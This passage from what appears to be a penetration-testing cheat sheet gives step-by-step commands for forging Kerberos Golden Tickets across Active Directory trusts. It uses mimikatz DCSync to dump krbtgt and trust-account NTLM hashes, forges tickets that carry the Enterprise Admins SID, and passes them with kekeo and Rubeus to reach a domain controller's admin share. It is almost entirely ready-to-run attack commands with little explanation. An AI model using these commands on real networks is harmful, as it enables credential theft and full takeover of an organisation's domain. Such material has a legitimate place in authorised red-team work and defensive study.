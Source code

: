 ### Golden Ticket

Extra SIDs with krbtgt

```
# get krbtgt ntlm
.\mimikatz.exe "lsadump::dcsync /domain:local.dom.com /user:prod\krbtgt"

# get SIDs
PS C:\Tools> Get-DomainSID -Domain local.dom.com
S-1-5-21-634106289-3621871093-708134407

PS C:\Tools> Get-DomainSID -Domain dom.com
S-1-5-21-1587569303-1110564223-1586047116

# pass the ticket (add "-519" for Enterprise Admin SID)
.\mimikatz "kerberos::golden /user:fake /domain:local.dom.com /sid:<local.dom.com SID> /krbtgt:<ntlm hash> /sids:<dom.com SID>-519 /ptt" exit
```

Extra SIDs with TRUST account - Forging Kerberos Trust Tickets Across Trusts

```
# get the 2 SIDs
> Get-DomainSID -Domain local.dom.com
S-1-5-21-634106289-3621871093-708134407

> Get-DomainSID -Domain dom.com
S-1-5-21-1587569303-1110564223-1586047116

# get the trust account ntlm hash
.\mimikatz.exe "lsadump::dcsync /domain:local.dom.com /user:dom$"

# forge the ticket
> .\mimikatz.exe "kerberos::golden /domain:dom.com /sid:<dom sid> /sids:<dom sid>-519 /rc4:TRUSTNTLM /user:fake /service:krbtgt /target:local.dom.com /ticket:trust.kirbi" exit

# get TGS for target service and export
> .\kekeo.exe "tgs::ask /tgt:c:\tools\trust.kirbi /service:cifs/dc.dom.com"

# pass the ticket
> .\Rubeus.exe ptt /ticket:c:\tools\TGS_fake@dom.com_cifs~dc.dom.com@DOM.COM.kirbi

# check
> dir \\dc.dom.com\c$
```

Resource: [It’s All About Trust – Forging Kerberos Trust Tickets to Spoof Access across Active Directory Trusts](https://adsecurity.org/?p=1588)

### MSSQL

#### Linked MSSQL in the Forest
